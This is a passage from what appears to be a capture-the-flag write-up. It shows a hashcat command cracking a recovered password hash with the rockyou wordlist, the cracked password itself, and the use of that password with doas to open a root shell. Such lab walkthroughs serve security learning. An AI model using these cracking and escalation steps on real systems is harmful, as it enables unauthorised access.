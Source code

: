 Trying to crack it with **Hashcat**:
```
hashcat -m 500 webapi_user.hash.2 /usr/share/wordlists/rockyou.txt --user
```

After a while it will crack the hash:
> littlebear

Testing this password for root with `doas`:
```
luanne$ doas sh    
Password:

# whoami
root
```

It works and starts a shell as root!
